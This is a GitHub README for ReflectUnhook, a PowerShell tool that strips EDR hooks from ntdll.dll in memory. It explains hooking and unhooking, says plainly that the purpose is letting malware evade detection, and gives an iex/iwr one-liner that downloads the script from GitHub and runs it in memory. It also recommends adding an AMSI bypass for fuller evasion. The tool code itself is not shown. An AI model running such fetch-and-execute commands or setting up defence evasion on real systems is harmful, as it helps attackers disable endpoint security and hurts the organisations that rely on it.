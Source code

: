 [![License: MIT](https://img.shields.io/badge/License-MIT-yellow.svg)](https://github.com/BlackShell256/ReflectUnhook/blob/main/LICENSE)
[![Telegram](https://badgen.net/badge/icon/telegram?icon=telegram&label)](https://t.me/MalwareBit)
[![LinkedIn](https://img.shields.io/static/v1.svg?label=LinkedIn&message=@anibal&logo=linkedin&style=flat&color=blue)](https://www.linkedin.com/in/anibal-5a3870278/)
[![YouTube](https://img.shields.io/badge/YouTube-%23FF0000.svg?logo=YouTube&logoColor=white)](https://www.youtube.com/@MalwarebitTeam)

| English | [Español](README.es.md) |
| --- | --- |

# ReflectUnhook
ReflectUnhook is an advanced tool written in PowerShell that uses Reflection to access the Windows API and low-level functions. This tool focuses on cleaning the hooks present in the ntdll.dll module from memory, restoring its original state by reading ntdll.dll directly from disk.

---

## ¿What are hooks?

Endpoint detection and response (EDR) tools employ a technique called **hooking** to monitor critical system functions in the DLLs of running processes. Hooking involves dynamically modifying system DLLs in memory, which allows EDRs to intercept and analyze the execution flow of a program to assess whether its behavior is legitimate or malicious.

The process works as follows: EDRs alter the initial instructions of certain functions within DLLs. When these functions are called, the program's execution flow is diverted to the EDR's code, which usually resides in a DLL of its own loaded into the process. Once redirected, the EDR examines the parameters of the intercepted functions to determine whether they are being used in a safe or potentially dangerous manner. If the operation is deemed legitimate, the EDR allows the program to resume its normal flow of execution and the function completes without interruption.

To evade detection of an EDR, attackers can resort to a technique known as **unhooking**. This method restores the content of the code section (.text) of the affected DLL to its original state, removing any modifications made by the EDR. This allows the malware to execute its functions without being intercepted or analyzed.
<br><br><ins>Function hooked</ins><br><br>
![image](https://github.com/user-attachments/assets/eed6af23-3e04-430c-962d-5474edc3a739)
<br><br><ins>Clean function after running ReflectUnhook</ins><br><br>
![image](https://github.com/user-attachments/assets/6da4d13f-489f-4736-b9f4-d0ad18e79eb8)

---

## Main features

- **Reflection**: Allows access to low-level Windows API functions without touching the disk using the “Add-Type” (Cmdlet) command.
- **Hooks removal**: Clears hooks in `ntdll.dll` used by AV/EDR solutions.
- **Read from disk**: Retrieves the original state of the module directly from its file on the system.

---

## Usage
To Use ReflectUnhook, run the following commands:

With this command we will execute ReflectUnhook in memory 
```
iex (iwr -UseBasicParsing https://raw.githubusercontent.com/BlackShell256/ReflectUnhook/refs/heads/main/ReflectUnhook.ps1)
```
For execute 
```
Invoke-ReflectUnhook
```
To get verbose and more information about the tool
```
Invoke-ReflectUnhook -v
```

### Usage example
![image](https://github.com/user-attachments/assets/8a69184a-08ab-4115-9ac7-0d19ea4c56d1)

---

## Recommendation
I recommend using ReflectUnhook + AMSI bypass for a more complete evasion, you can use [Null-AMSI](https://github.com/BlackShell256/Null-AMSI) (My custom AMSI Bypass tool) or one of your choice.

---

## Credits

* Much of the code is from PowerSploit's Invoke-ReflectivePEInjection tool. [Github](https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-ReflectivePEInjection.ps1)

* Some of the Reflection code I learned from Matt Graeber. [X/Twitter](https://x.com/mattifestation)

